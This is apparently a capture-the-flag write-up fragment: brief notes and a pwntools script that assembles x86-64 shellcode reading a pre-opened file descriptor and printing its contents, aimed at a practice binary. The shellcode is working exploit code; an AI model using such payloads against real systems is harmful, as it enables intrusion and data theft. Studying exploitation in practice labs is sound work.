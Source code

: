 * Need to use syscall read, write and exit so the program does not crash

* This big shellcode can be used for egg hunting in find-me!!

* Ensure buffer is correct size

Script/Command used
------------------

```
from pwn import *
import re

PROGRAM_PATH = (Path(__file__).parent / "simple").resolve().__str__()
BUFF_SIZE = 2048

gdb_script = """
b *main
b *main+372
b *main+483
c
"""
# open-fd.s
# myAsm = """

#     lea rsi, [rsp]
#     mov rdi, 1000
#     xor rax, rax
#     mov dl, 190
#     syscall

#     mov al, 1
#     mov dil, 1
#     mov dl, 190
#     syscall

#     mov eax, 60
#     xor rdi, rdi
#     syscall
# """

myAsm = """
    xor     eax, eax            
    mov     edi, 1000
    sub     rsp, 0x400
    mov     rsi, rsp
    mov     edx, 0x400
    syscall                     

    mov     edx, eax
    mov     edi, 1              
    mov     eax, 1              
    syscall

    xor     edi, edi
    mov     eax, 60             
    syscall

"""
# WE NEED THE EXIT(0)

shellcode = asm(myAsm, extract=True, arch="amd64", os="linux")
shellcode_len = len(shellcode)
print("____________________________________")

```